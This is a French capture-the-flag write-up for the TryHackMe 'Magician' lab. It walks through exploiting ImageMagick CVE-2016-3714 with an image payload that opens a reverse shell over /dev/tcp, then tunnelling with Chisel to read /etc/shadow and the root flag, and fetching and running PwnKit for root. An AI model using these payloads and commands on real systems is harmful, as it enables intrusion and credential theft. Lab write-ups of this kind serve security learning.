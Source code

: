 # Magician !

La VM traite de ImageMagik et de la CVE-2016-3714.
On va tester tout cela ! :)

# Enumeration
## Nmap
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-05 08:11 EST
Nmap scan report for 10.10.56.0
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.0.8 or later
8080/tcp open  http-proxy
8081/tcp open  http       nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.07 seconds
```
On vois ici 3 port, le 21 pour FTP, et 8080,8081 pour un serveur web.
URL : http://10.10.56.0:8081/

Il s'agit d'un site qui convertie les images .png en .jpg.

# Exploitation
Il parle de la **CVE-2016-3714** qui est une CVE concernant ImageMagik et permet d'executer des commandes via une fausse image (ou une vrai piéger :))

Plus d'info et exploit [ici](https://www.exploit-db.com/exploits/39767)
On va utiliser le payload trouvable sur le repo de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20ImageMagick)

On créer donc un fichier avec l'extension **.png**
```
nano test.png
```
Puis on colle le payload dedans:
```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.14.59.209/1234 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
Ensuite, il sufit d'ouvrir un listener:
```
nc -lnvp 1234
```
puis d'upload le fichier sur le site, et nous voila avec un revshell :
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.14.59.209] from (UNKNOWN) [10.10.56.0] 43670
sh: cannot set terminal process group (986): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```
# Post exploitation
Dans le dossier /home de l'user **magician** on retrouve ce fichier:
```
spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
```
On regarde ce qu'il y a dedans a la recherche d'information utile:
```
jar -tf spring-boot-magician-backend-0.0.1-SNAPSHOT.jar
```
Plein de chose mais rien d'utile.

Je lance copie Linpeas et l'execute, il trouve un truc intéressant:
```                                                                                                            
tcp        0      0 0.0.0.0:8081            0.0.0.0:*               LISTEN      -                                                                                                         
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6666          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      986/java            
tcp6       0      0 :::21                   :::*                    LISTEN      -
```
Le port 6666 est suspect.

Je vais le rerouter vers moi afin de voir ce qu'il y a derriere, pour cela, je vais utiliser l'outil [Chisel](https://github.com/jpillora/chisel) qui est un tunel TCP/UDP.
Je démarre le tunel sur ma machine :
```
chisel server -p 9001 --reverse
2023/12/05 11:10:57 server: Reverse tunnelling enabled
2023/12/05 11:10:57 server: Fingerprint ad4CZVn3A4nUKA0Xmv8X+I1tceh7Oczf2HmRcETN7xw=
2023/12/05 11:10:57 server: Listening on http://0.0.0.0:9898
```
Je copie et lance Chisel en mode client sur la machine cible:
```
./chisel client 10.14.59.209:9001 R:9002:127.0.0.1:6666
```
Je tombe sur une page web qui me demande d'entrer le nom d'un fichier.
J'entre **/etc/passwd** et cela me le renvoi encoder en base64.
Je tente avec **/etc/shadow** et je le recoit aussi en base64.

Cela veux dire que cette application a les droits **root**.

Je regarde donc **/root/root.txt** pour voir et je récupère bien le flag :
```
THM{magic_*******************_mad}
```
# Root cheat mod !
Pareil que pas mal de VM présente sur THM, elle est vulnérable avec PwnKit :
```
magician@magician:/tmp$ wget 10.14.59.209/PwnKit
--2023-12-05 10:06:32--  http://10.14.59.209/PwnKit
Connecting to 10.14.59.209:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18040 (18K) [application/octet-stream]
Saving to: ‘PwnKit’

PwnKit              100%[===================>]  17.62K  --.-KB/s    in 0.03s   

2023-12-05 10:06:32 (508 KB/s) - ‘PwnKit’ saved [18040/18040]

magician@magician:/tmp$ chmod +x PwnKit 
magician@magician:/tmp$ ./PwnKit 
root@magician:/tmp#
```
